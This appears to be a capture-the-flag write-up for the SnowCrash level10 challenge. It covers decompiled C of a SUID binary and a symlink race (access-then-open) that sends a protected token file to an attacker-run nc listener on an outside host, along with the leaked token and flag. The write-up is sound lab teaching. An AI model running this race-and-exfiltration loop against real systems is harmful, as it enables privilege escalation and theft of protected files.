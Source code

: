 # Level10

Two files are present is present in home directory of the `level10` user witch are a binary named `level10` and a `token` file. The `token` file is not readable. The **SUID** bit is set on the `level10` binary and owner is user `flag10` on both files.

#### Tests
- Launching the `level10` binary outputs:
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
- Launching the `level10` binary with the `token` file as first argument and `127.0.0.1` as second argument outputs:
```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```
- Launching the `level10` binary as previously with a file owned by us outputs:
```
level10@SnowCrash:~$ touch /tmp/file
level10@SnowCrash:~$ echo "ouh" > /tmp/file
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
- Setting up a `nc` listener on port `6969` of our host machine and launching the `level10` binary with a file owned by us and our host IP successfully sends the content of our file to our listener.
```
level10@SnowCrash:~$ ./level10 /tmp/file 192.168.122.97
Connecting to 192.168.122.97:6969 .. Connected!
Sending file .. wrote file!
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [192.168.122.97] from (UNKNOWN) [192.168.122.104] 51879
.*( )*.
ouh
```

Passing the file to **Ghidra's** code browser let's us observe the `main()` function's contents.

```c
int main(int argc,char **argv)
{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = argv[1];
  __cp = argv[2];
  iVar2 = access(argv[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data._2_4_ = 0;
    local_24.sa_data._6_4_ = 0;
    local_24.sa_data._10_4_ = 0;
    local_24._0_4_ = 2;
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24._0_4_ = local_24._0_4_ & 0xffff | (uint)uVar1 << 0x10;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }
  else {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2;
}
```

The important thing to notice is that `access` function is called first. Then the file is opened and sent to the host trough a **socket** on port `6969`.

The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation so access will fail since the token file is accessible only by the `flag10` user.

## The attack
The trick here is to take advantage of a security issue known with access. We can read about it in then man page:

```
Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.
```

If we run a while loop that continuously creates a accessible `token` file, then removes it and creates a **symlink** to the original token file present in the home directory, we will be able to **swap** the file after `access` succeeds and **before the call** to `open` is made.

Note that `open` uses the effective UID so since the **SUID** bit is set, it will be able to open the `token` file owned by `flag10` user.

We also need to run a loop that continuously launches our `level10` binary and another loop that continuously launches a **listener** on our host.

**SnowCrash first TTY**
```
level10@SnowCrash:~$ while [ True ]; do rm /tmp/token && touch /tmp/token && rm /tmp/token && ln -s $PWD/token /tmp/token; done;
```

**SnowCrash second TTY**
```
level10@SnowCrash:~$ while [ True ]; do ./level10 /tmp/token 192.168.122.97; done;
```

**Our machine TTY**
```
┌──(kali㉿kali)-[~]
└─$ while [ True ]; do nc -lvnp 6969; done;
listening on [any] 6969 ...
connect to [192.168.122.97] from (UNKNOWN) [192.168.122.104] 51822
.*( )*.
listening on [any] 6969 ...
connect to [192.168.122.97] from (UNKNOWN) [192.168.122.104] 51822
.*( )*.

... SNIP ...

listening on [any] 6969 ...
connect to [192.168.122.97] from (UNKNOWN) [192.168.122.104] 51824
.*( )*.
woupa2yuojeeaaed06riuj63c
```

After a couple of tries, we have successfully received the contents of the `token` file, log in as the `flag10` user and launch the `getflag` command.

```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
